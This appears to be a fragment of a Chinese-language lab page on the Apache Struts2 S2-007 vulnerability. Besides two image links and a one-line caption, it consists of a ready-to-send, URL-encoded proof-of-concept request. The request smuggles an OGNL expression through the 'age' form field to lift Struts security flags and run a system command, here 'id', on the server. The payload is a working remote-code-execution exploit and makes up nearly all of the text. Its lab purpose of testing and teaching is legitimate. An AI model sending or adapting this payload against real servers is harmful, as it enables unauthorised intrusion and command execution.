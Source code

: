 ![s2-007-1](images/s2-007-1.png)

任意命令执行 PoC，执行 `id` 命令

```
name=a&email=a&age=%27+%2B+%28%23_memberAccess%5B%22allowStaticMethodAccess%22%5D%3Dtrue%2C%23foo%3Dnew+java.lang.Boolean%28%22false%22%29+%2C%23context%5B%22xwork.MethodAccessor.denyMethodExecution%22%5D%3D%23foo%2C%40org.apache.commons.io.IOUtils%40toString%28%40java.lang.Runtime%40getRuntime%28%29.exec%28%27id%27%29.getInputStream%28%29%29%29+%2B+%27
```

![s2-007-2](images/s2-007-2.png)
